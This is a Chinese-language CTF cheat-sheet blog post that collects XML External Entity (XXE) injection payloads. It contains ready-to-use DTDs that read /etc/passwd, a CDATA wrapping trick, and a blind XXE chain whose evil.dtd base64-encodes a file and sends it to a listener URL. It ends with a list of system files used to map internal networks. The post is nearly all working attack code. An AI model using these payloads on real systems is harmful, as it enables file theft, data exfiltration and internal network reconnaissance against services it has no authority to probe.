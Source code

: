 ```yaml
---
title: "XXE 总结笔记"
date: 2022-08-27T18:18:31+08:00
lastmod: 2022-08-27T18:18:31+08:00
draft: false
author: "X1r0z"

tags: ['ctf','xxe']
categories: ['CTF笔记']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


记录一下常用 xxe payload

想到啥写啥, 只是一个备忘录

<!--more-->

## 引用外部实体

SYSTEM

```xml-dtd
<!ENTITY xxs SYSTEM "file:///etc/passwd" >
```

PUBLIC

```xml-dtd
<!ENTITY % remote PUBLIC "dtd" "http://127.0.0.1/evil.dtd">
```

## 常规 xxe

通用实体

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY file SYSTEM "file:///etc/passwd">]>
<test>
&file;
</test>
```

参数实体 (利用 CDATA)

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY % start "<![CDATA[">
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://127.0.0.1/evil.dtd">
%dtd;]>
<test>
&all;
</test>
```

evil.dtd

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!ENTITY all "%start;%xxe;%end;" >
```

## blind xxe

payload

```xml-dtd
<!DOCTYPE test [
<!ENTITY % remote SYSTEM "http://127.0.0.1/evil.dtd">
%remote;%int;%send;
]>
```

evil.dtd

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1/?p=%file;'>">
```

## 获取内网网段

```
/etc/network/interfaces
/etc/hosts
/proc/net/arp
/proc/net/tcp
/proc/net/udp
/proc/net/dev
/proc/net/fib_trie
```